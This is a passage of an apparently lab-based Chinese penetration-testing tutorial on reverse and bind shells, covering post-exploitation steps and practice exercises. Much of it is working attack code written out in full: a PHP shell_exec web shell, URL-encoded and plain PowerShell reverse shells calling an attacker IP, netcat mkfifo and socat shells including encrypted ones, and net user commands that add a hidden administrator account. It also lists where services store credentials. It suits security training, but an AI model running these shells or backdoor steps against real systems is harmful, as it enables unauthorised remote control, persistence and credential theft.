请注意，大多数通用的、特定语言的（例如 PHP）反向 shell 是为基于 Unix 的目标（例如 Linux 网络服务器）编写的，它们可能无法在 Windows 上运行。
PentestMonkey反向shell 链接： https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
当目标是 Windows 时，通常使用 web shell 获取 RCE，或者使用 msfvenom 生成对应服务器语言的反向/绑定 shell。 前一种方法，通常是使用 URL 编码的 Powershell Reverse Shell 来获取 RCE。 这将作为前面提到的webshell中的cmd 参数复制到 URL 中：
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22这与我们在第8小节中遇到的powershell shell 相同，但是，它经过了 URL 编码，可以在 GET 参数中安全使用。 请记住，IP 和端口（以上内容中的IP、PORT）仍然需要在上面的代码中进行更改。
0x12 获取shell之后的操作
好了，我们有shell了，现在怎么办？
我们已经介绍了许多生成、发送和接收 shell 的方法，这些方法都有一个共同点，那就是得到的shell往往是不稳定的和非交互的。 即使是更容易稳定化的 Unix 风格的shell的稳定性也不是非常理想。 那么，我们能做些什么呢？
理想情况下，在 Linux 上，我们会接着寻找机会访问用户帐户，存储在/home/<user>/.ssh的 SSH 密钥通常是执行此操作的理想方式。
在 CTF 中，在目标机的某处发现密码凭证也不少见，一些漏洞exp还允许你添加自己的帐户，特别是像 Dirty C0w（脏牛漏洞） 或可写的 /etc/shadow 文件或 /etc/passwd文件会很快让你通过 SSH 来访问目标机器，假设目标机器的SSH服务是打开的。
Dirty C0w（脏牛漏洞）介绍：https://dirtycow.ninja/
而在 Windows 上，可利用的选项通常更加有限，有时可以在注册表中找到运行服务的密码。例如，VNC 服务器经常将密码以明文形式存储在注册表中，某些版本的 FileZilla FTP 服务器还会在 XML 文件中保留登录凭据，可能保留凭据的文件路径是：
C:\Program Files\FileZilla Server\FileZilla Server.xml
#或者
C:\xampp\FileZilla Server\FileZilla Server.xml
#这些凭据可以是MD5散列值，也可以是明文，具体取决于版本理想情况下，在 Windows 上，你将获得以 SYSTEM 用户身份运行的 shell，或以高权限运行的管理员帐户。 在这种情况下，你可以简单地将你自己的帐户（在管理员组中）添加到计算机，然后通过 RDP、telnet、winexe、psexec、WinRM 或其他方法登录，具体情况取决于目标机器上运行的服务。
其基本语法如下:
net user <username> <password> /add #添加新用户
net localgroup administrators <username> /add #添加用户到管理员组反向 shell 和绑定 shell 是在机器上获得远程代码执行的基本技术，但是，它们永远不会像原生 shell 那样功能齐全。 理想情况下，我们总是希望升级为使用“正常”方法来访问机器，因为这总是更容易用于进一步利用目标。
0x13 练习与实践
这个章节包含了大量的信息，并且几乎没有机会让你始终将其付诸实践。
接下来的实践与案例将包含两个虚拟机（一个 Ubuntu 18.04 服务器和一个 Windows 服务器），每个都配置有一个简单的网络服务器，请使用它上传和激活 shell。
在这个案例中提供的是一个沙盒环境，所以没有过滤器需要进行绕过，你可以选择登录以使用 netcat、socat 或meterpreter shell 进行练习，提供登录凭据和说明，同时还会给出一些shell示例。
Linux Practice Box
附加到此任务的盒子是一个 Ubuntu 服务器，其文件上传页面在网络服务器上运行。这应该用于在 Linux 系统上练习 shell 上传。同样，本机上也安装了 socat 和 netcat，因此请随意通过端口 22 上的 SSH 登录来直接使用它们进行练习。登录的凭据是：
- 用户名：shell
- 密码：TryH4ckM3!
练习1
准备一个webshell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
接着在webshell页面连接攻击机监听端


练习2
进入shell文件目录，修改对应IP与端口


成功拿shell

练习3
ssh登录目标机

在目标机使用netcat建立监听端，并在攻击机使用nc连接目标端口即可拿到绑定shell


第二种方法，适用于linux系统
mkfifo /tmp/f; nc -lvnp 5555 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

也是成功拿到shell，接下来尝试练习反向shell
mkfifo /tmp/f; nc 10.10.197.61 5555 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f//目标机上执行

练习4
socat TCP-L:5555 //kali上执行
socat TCP:10.11.65.203:5555 EXEC:"bash -li" //目标机执行

可以看到回显会出现在两个机器上，下面是绑定shell
socat TCP-L:5555 EXEC:"bash -li" //目标机执行
socat TCP:10.10.197.61:5555 - //kali执行

接下来尝试建立一个完美的交互式shell
socat TCP:10.11.65.203:5555 EXEC:"bash -li",pty,stderr,sigint,setsid,sane //目标机执行
socat TCP-L:5555 FILE:`tty`,raw,echo=0 //kali执行

接下来尝试socat的加密shell
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
//以上是kali执行，下面是目标机执行
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash


socat OPENSSL-LISTEN:5555,cert=shell.pem,verify=0 EXEC:/bin/bash //目标机执行
socat OPENSSL:10.10.197.61:5555,verify=0 - //kali执行首先开始个http服务，上传对应shell.pem到目标机


练习5
这里尝试直接上传php_reverse_shell，但是无效


这说明该php_reverse_shell内容只适用于unix系统
练习6
尝试上传webshell，利用shell_exec执行powershell反弹shell脚本
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.65.203',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
练习7
可以在上面练习6的基础上，添加用户到管理员组，直接远程登录
net user <username> <password> /add #添加新用户
net localgroup administrators <username> /add #添加用户到管理员组
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.90.86 /u:hybcx /p:'1234' #添加剪切板功能
练习8
netcat反向shell
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.90.86 /u:Administrator /p:'TryH4ckM3!'

netcat绑定shell

socat反向shell
socat TCP-L:5555 -
socat TCP:10.11.65.203:5555 EXEC:powershell.exe,pipes
socat绑定shell
socat TCP-L:5555 EXEC:powershell.exe,pipes
socat TCP:10.11.65.203:5555 -
练习9

使用msfvenom生成exe之后直接复制到目标机上即可，接下来进入meterpreter的监听模块


练习10
使用练习9遗留的分段exe，发现弹回来的shell无法使用，不能回显信息，接下来尝试不分段的

如下图，依旧没反应

结果：不能，我们需要使用msf里面的multi/handler模块捕获meterpreter shell，用netcat并不能使这个shell正常工作。